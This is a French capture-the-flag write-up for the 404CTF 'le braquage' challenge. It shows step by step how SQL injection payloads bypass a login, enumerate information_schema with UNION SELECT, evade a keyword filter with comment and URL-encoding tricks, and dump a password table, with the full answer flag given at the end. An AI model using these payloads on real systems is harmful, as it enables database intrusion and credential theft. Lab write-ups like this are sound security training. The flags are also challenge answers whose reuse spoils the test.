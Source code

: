 > Vous êtes sur une affaire de cambriolage. D’après vos informations, un criminel surnommé TITI a prévu une rencontre avec ses complices pour préparer son prochain casse.
> 
> Heureusement, votre équipe est parvenu à trouver un site qu’ils utilisent. Ce site leur permet de communiquer et d’échanger des lieux de rendez-vous ainsi que des fausses identités. A vous d’exploiter cette base de données pour obtenir des informations sur le suspect et son opération : nom, prénom, adresse visée, date du casse, heure du casse, téléphone, mot de passe.
> 
> Les différents morceaux de flag sont sous la forme : 404CTF{Nom},404CTF{Prénom},404CTF{Adresse},404CTF{Date},404CTF{Heure},404CTF{Téléphone},404CTF{Mdp}

1. Sur https://le-braquage.404ctf.fr/scripts/page1.php:
- Identifiant: `' OR ''='`
- Pseudonyme: `ARKANYOTA`

```nushell
╭───┬─────────┬────────────┬────────────────────┬──────────────────────────┬───────────────────╮
│ # │ Id      │ Pseudonyme │ Téléphone          │ Adresse                  │ Code              │
├───┼─────────┼────────────┼────────────────────┼──────────────────────────┼───────────────────┤
│ 0 │ 1       │ RIRI       │ 0145489625         │ 5 avenue des groseilles  │ OpérationEpervier │
│ 1 │ 2       │ FIFI       │ 0145889625         │ 1 rue des myrtilles      │ OpérationFaucon   │
│ 2 │ 3       │ LOULOU     │ 0115789625         │ 1 rue des pommes         │ OpérationFaucon   │
│ 3 │ 456     │ JAJA       │ 0145769625         │ 1 rue des pommes         │ OpérationGorfou   │
│ 4 │ 472     │ RORO       │ 0189999625         │ 5 boulevard des poires   │ OpérationFaucon   │
│ 5 │ 7456    │ TITI       │ 404CTF{0145769456} │ 404CTF{21 rue des kiwis} │ OpérationGorfou   │
│ 6 │ 7865    │ DEDE       │ 0145781225         │ 3 avenue des oranges     │ OpérationMouette  │
│ 7 │ 16579   │ DIDI       │ 0145789625         │ 1 rue des pommes         │ OpérationEpervier │
╰───┴─────────┴────────────┴────────────────────┴──────────────────────────┴───────────────────╯
```

On a donc pour le moment `404CTF{Nom},404CTF{Prénom},404CTF{21 rue des kiwis},404CTF{Date},404CTF{Heure},404CTF{0145769456},404CTF{Mdp}` et Code = OpérationGorfou

2. Sur 
- Identifiant: `' OR ''='' UNION SELECT table_name, column_name FROM information_schema.columns WHERE ''='`

```nushell
╭────┬──────────────┬────────────────────────────────────────────────────────────────────╮
│ #  │    Pseudo    │                            Coopérative                             │
├────┼──────────────┼────────────────────────────────────────────────────────────────────┤
│  0 │ DEDE         │ Collaboration des négociants de minerais de Franche-Comté          │
│  1 │ DIDI         │ Association des vendeurs d'or de France                            │
│  2 │ FIFI         │ Corporation des fournisseurs de pierres précieuses d'Île-de-France │
│  3 │ JAJA         │ Regroupement des marchands de joyaux d'Ille-et-Vilaine             │
│  4 │ LOULOU       │ Association des vendeurs d'or de France                            │
│  5 │ RIRI         │ Association des vendeurs d'or de France                            │
│  6 │ RORO         │ Corporation des fournisseurs de pierres précieuses d'Île-de-France │
│  7 │ TITI         │ Regroupement des marchands de joyaux d'Ille-et-Vilaine             │
│  8 │ .            │ .                                                                  │
│  9 │ .            │ .                                                                  │
│ 10 │ .            │ .                                                                  │
│ 11 │ cooperatives │ pseudo                                                             │
│ 12 │ cooperatives │ cooperative                                                        │
│ 13 │ Users        │ id                                                                 │
│ 14 │ Users        │ nom                                                                │
│ 15 │ Users        │ prenom                                                             │
╰────┴──────────────┴────────────────────────────────────────────────────────────────────╯```
```

- Identifiant: `' OR ''='' UNION SELECT nom, prenom FROM Users WHERE ''='`

```nushell
╭────┬────────────────┬────────────────────────────────────────────────────────────────────╮
│ #  │     Pseudo     │                            Coopérative                             │
├────┼────────────────┼────────────────────────────────────────────────────────────────────┤
│  0 │ DEDE           │ Collaboration des négociants de minerais de Franche-Comté          │
│  1 │ DIDI           │ Association des vendeurs d'or de France                            │
│  2 │ FIFI           │ Corporation des fournisseurs de pierres précieuses d'Île-de-France │
│  3 │ JAJA           │ Regroupement des marchands de joyaux d'Ille-et-Vilaine             │
│  4 │ LOULOU         │ Association des vendeurs d'or de France                            │
│  5 │ RIRI           │ Association des vendeurs d'or de France                            │
│  6 │ RORO           │ Corporation des fournisseurs de pierres précieuses d'Île-de-France │
│  7 │ TITI           │ Regroupement des marchands de joyaux d'Ille-et-Vilaine             │
│  8 │ Assin          │ Marc                                                               │
│  9 │ Outan          │ Laurent                                                            │
│ 10 │ Gator          │ Ali                                                                │
│ 11 │ Reptile        │ Eric                                                               │
│ 12 │ Culé           │ Roland                                                             │
│ 13 │ 404CTF{Vereux} │ 404CTF{UnGorfou}                                                   │
│ 14 │ Abbé           │ Oscar                                                              │
│ 15 │ Conda          │ Anna                                                               │
╰────┴────────────────┴────────────────────────────────────────────────────────────────────╯
```

On a donc pour le moment `404CTF{Vereux},404CTF{UnGorfou},404CTF{21 rue des kiwis},404CTF{Date},404CTF{Heure},404CTF{0145769456},404CTF{Mdp}`

3. Page :

- Code: `OpérationGorfou`
```nushell
╭───┬─────────────────┬────────────────────┬────────────────────╮
│ # │      Code       │        Date        │       Heure        │
├───┼─────────────────┼────────────────────┼────────────────────┤
│ 0 │ OpérationGorfou │ 404CTF{2022-07-14} │ 404CTF{01hDuMatin} │
╰───┴─────────────────┴────────────────────┴────────────────────╯
```
On a donc pour le moment `404CTF{Vereux},404CTF{UnGorfou},404CTF{21 rue des kiwis},404CTF{2022-07-14},404CTF{01hDuMatin},404CTF{0145769456},404CTF{Mdp}`

4. Page: 
> Doc: https://portswigger.net/support/sql-injection-bypassing-common-filters

- Code: `'OR''=''UNION/**/S%45lect/**/table_name,column_name,1/**/FROM/**/information_schema.columns/**/WHERE''='`
```nushell
╭────┬───────────────────┬────────────────────┬────────────────────╮
│ #  │       Code        │        Date        │       Heure        │
├────┼───────────────────┼────────────────────┼────────────────────┤
│  1 │ OpérationEpervier │ 2021-11-02         │ 19h                │
│  2 │ OpérationMouette  │ 2021-09-14         │ 19h                │
│  3 │ OpérationFaucon   │ 2022-01-01         │ 20h                │
│  4 │ OpérationGorfou   │ 404CTF{2022-07-14} │ 404CTF{01hDuMatin} │
│  5 │ .                 │ .                  │ 1                  │
│  6 │ .                 │ .                  │ 1                  │
│  7 │ .                 │ .                  │ 1                  │
│  8 │ Rdv               │ code               │ 1                  │
│  9 │ Rdv               │ dateRdv            │ 1                  │
│ 10 │ Rdv               │ heureRdv           │ 1                  │
│ 11 │ Password          │ id                 │ 1                  │
│ 12 │ Password          │ mdp                │ 1                  │
╰────┴───────────────────┴────────────────────┴────────────────────╯
```

- Code: `'OR''=''UNION/**/S%45lect/**/id,mdp,1/**/FROM/**/Password/**/WHERE''='`

```nushell
╭────┬───────────────────┬──────────────────────────┬────────────────────╮
│ #  │       Code        │           Date           │       Heure        │
├────┼───────────────────┼──────────────────────────┼────────────────────┤
│  1 │ OpérationEpervier │ 2021-11-02               │ 19h                │
│  2 │ OpérationMouette  │ 2021-09-14               │ 19h                │
│  3 │ OpérationFaucon   │ 2022-01-01               │ 20h                │
│  4 │ OpérationGorfou   │ 404CTF{2022-07-14}       │ 404CTF{01hDuMatin} │
│  5 │ 1                 │ d7uA9kYU3                │ 1                  │
│  6 │ 2                 │ 5qKrD4F7p                │ 1                  │
│  7 │ 3                 │ SXq3rZ35v                │ 1                  │
│  8 │ 456               │ FGp4Q93tk                │ 1                  │
│  9 │ 472               │ qJB5y45Xe                │ 1                  │
│ 10 │ 7456              │ 404CTF{GorfousAuPouvoir} │ 1                  │
│ 11 │ 7865              │ S5eN2p5Wj                │ 1                  │
│ 12 │ 16579             │ T3h98HdFy                │ 1                  │
╰────┴───────────────────┴──────────────────────────┴────────────────────╯
```

| `404CTF{VereuxUnGorfou014576945621ruedeskiwis2022-07-1401hDuMatinGorfousAuPouvoir}` |
|-------------------------------------------------------------------------------------|